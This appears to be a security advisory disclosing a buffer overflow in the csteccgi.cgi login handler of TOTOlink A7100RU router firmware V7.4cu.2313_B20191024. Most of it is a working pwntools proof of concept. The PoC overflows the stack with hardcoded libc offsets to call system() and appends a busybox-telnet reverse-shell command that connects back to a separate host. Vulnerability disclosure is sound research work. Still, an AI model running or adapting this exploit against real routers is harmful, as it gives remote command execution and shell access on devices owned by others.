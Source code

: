 # TOTOlink A7100RU(V7.4cu.2313_B20191024) router buffer overflow vulnerability

## Information

Vendor：http://totolink.net/

Firmware：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## Affected Version

V7.4cu.2313_B20191024

![image](https://github.com/unpWn4bL3/iot-security/assets/13286957/3dfda397-6bd5-4f38-9a10-31bc51c69199)

## Detail

![image](https://github.com/unpWn4bL3/iot-security/assets/13286957/ce098152-7d41-480e-bbc8-c5f9d493a07b)

main() of csteccgi.cgi reads v15 from http POST body

![image](https://github.com/unpWn4bL3/iot-security/assets/13286957/58d0306c-a439-4381-b4b8-09794ac98052)

When query string of http request contains "action=login" and "flag=ie8", v52 is constructed using sprinf. If v15 has excessive length, v52 will have a bufer overflow vulnerability

## POC
```python
from pwn import *
context(os="linux", arch="mips", log_level="debug", bits=32, endian="little")
libc_base = 0x77ecc000

payload = flat({
    5684: libc_base + 0x0004FEB0, # system
    5700: libc_base + 0x00016BC8, # ra
},filler=b'a')
payload += cyclic(16)
payload += b"""TF=$(mktemp -u);mkfifo $TF && telnet 192.168.3.1 8080 0<$TF | sh 1>$TF\n"""

packet = (
b"""POST /cgi-bin/cstecgi.cgi?action=login&flag=ie8 HTTP/1.1\r\n"""
+b"""Host: 192.168.3.2\r\n"""
+b"""User-Agent: curl/7.81.0\r\n"""
+b"""Accept: */*\r\n"""
+b"""Content-Length: """ +str(len(payload)).encode()+ b"""\r\n"""
+b"""Content-Type: application/x-www-form-urlencoded\r\n"""
+b"""\r\n"""
+payload
)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.3.2", 80))
print(packet)
s.send(packet)
```

![image](https://github.com/unpWn4bL3/iot-security/assets/13286957/e605c9a8-7c7f-475a-b864-3e5d454d3cb8)

Here we use firmware's built-in busybox-telnet to reverse shell. Further more, an attacker can construct payload to execute arbitry command or shellcode.
